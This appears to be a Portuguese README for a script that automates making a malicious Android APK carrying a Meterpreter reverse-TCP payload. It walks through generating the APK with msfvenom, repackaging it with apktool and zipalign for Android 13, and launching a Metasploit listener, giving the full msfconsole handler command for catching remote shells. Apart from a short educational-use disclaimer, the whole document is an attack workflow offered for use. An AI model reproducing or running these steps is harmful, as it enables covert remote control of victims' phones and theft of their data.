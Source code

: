 <h1>Automatização de Geração de APK com Payload Meterpreter e Exploração com Metasploit</h1>
<p>Este projeto automatiza o processo de criação de um APK malicioso com o payload Meterpreter para Android, utilizando o <code>msfvenom</code>, e fornece instruções para modificar o <code>AndroidManifest.xml</code> para compatibilidade com Android 13. O script também inicia automaticamente o listener no Metasploit para capturar a conexão do dispositivo alvo.</p>

<h2>Requisitos</h2>
<ul>
<li>Python 3 instalado.</li>
<li><code>msfvenom</code>: Ferramenta do Metasploit para gerar payloads.</li>
<li>Metasploit Framework: Ferramenta para exploração e captura de sessões de meterpreter.</li>
<li><code>ApkTool</code>: Ferramenta para descompilar, modificar e recompilar APKs.</li>
<li><code>ZipAlign</code>: Ferramenta para otimizar APKs.</li>
<li><code>ApkSigner</code>: Ferramenta para assinar APKs.</li>
</ul>

<h2>Instalação dos requisitos</h2>
<p>Instale o Metasploit Framework:</p>
<pre><code>curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash</code></pre>

<p>Instale o ApkTool:</p>
<ul>
<li>Baixe o ApkTool <a href="https://github.com/iBotPeaches/Apktool" target="_blank">aqui</a>.</li>
<li>Siga as instruções para a instalação no seu sistema.</li>
</ul>

<p>Instale o ZipAlign:</p>
<ul>
<li>O ZipAlign geralmente faz parte do Android SDK.</li>
<li>Você pode baixar o Android SDK <a href="https://developer.android.com/studio" target="_blank">aqui</a>.</li>
</ul>

<p><code>msfvenom</code> já faz parte do Metasploit Framework, então você não precisa instalar separadamente.</p>

<h2>Como usar o script</h2>
<h3>Passo 1: Clone o repositório</h3>
<p>Clone este repositório para sua máquina local:</p>
<pre><code>git clone https://github.com/seu-usuario/automacao-apk-metasploit.git
cd automacao-apk-metasploit</code></pre>

<h3>Passo 2: Execute o script</h3>
<p>Antes de executar o script, certifique-se de que todas as ferramentas mencionadas acima estão instaladas e funcionando corretamente.</p>
<p>Execute o script Python:</p>
<pre><code>python3 generate_apk.py</code></pre>

<h3>Passo 3: O que o script faz</h3>
<ul>
<li><strong>Obtém o IP local</strong>: O script utiliza o comando <code>ifconfig</code> para obter o IP local da máquina.</li>
<li><strong>Gera o APK</strong>: Usando o <code>msfvenom</code>, o script gera um APK malicioso com o payload Meterpreter para o IP local (LHOST) e porta <code>4444</code> (LPORT).</li>
<li><strong>Instruções para Modificar o Manifesto</strong>: O script fornecerá as instruções para você atualizar o arquivo <code>AndroidManifest.xml</code> no APK para torná-lo compatível com Android 13.</li>
<li><strong>Iniciar o Listener no Metasploit</strong>: O script executará automaticamente o Metasploit para começar a escutar conexões de dispositivos com o payload.</li>
</ul>

<h3>Passo 4: Atualizar o AndroidManifest.xml (para Android 13)</h3>
<p>Após gerar o APK, você precisa modificar o <code>AndroidManifest.xml</code> para Android 13. Para isso, execute:</p>
    <pre><code>apktool d Brunao.apk</code></pre>

<p>Abra o arquivo <code>AndroidManifest.xml</code> dentro da pasta descompilada e adicione as permissões necessárias para Android 13.</p>

<p>Recompile o APK:</p>
<pre><code>apktool b Brunao</code></pre>

<p>Alinhe o APK com o comando:</p>
<pre><code>zipalign -v 4 Brunao.apk Brunao.apk</code></pre>

<p>Depois, o APK estará pronto para ser assinado e instalado.</p>

<h3>Passo 5: Executando o Listener no Metasploit</h3>
<p>Para iniciar o listener no Metasploit e aguardar a conexão do dispositivo alvo, execute:</p>
<pre><code>msfconsole -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST [SEU_IP]; set LPORT 4444; exploit'</code></pre>

<p>Este comando configurará o Metasploit para escutar as conexões de dispositivos com o payload.</p>

<h2>Contribuindo</h2>
<p>Sinta-se à vontade para fazer melhorias no código e enviar pull requests.</p>

<h2>Aviso Legal</h2>
<p>Este projeto é somente para fins educacionais. Não use essas técnicas em sistemas sem permissão. Realizar ataques sem autorização é ilegal e pode levar a sérias consequências legais.</p>

<div class="footer">
<p>&copy; 2025 Seu Nome. Todos os direitos reservados.</p>
</div>
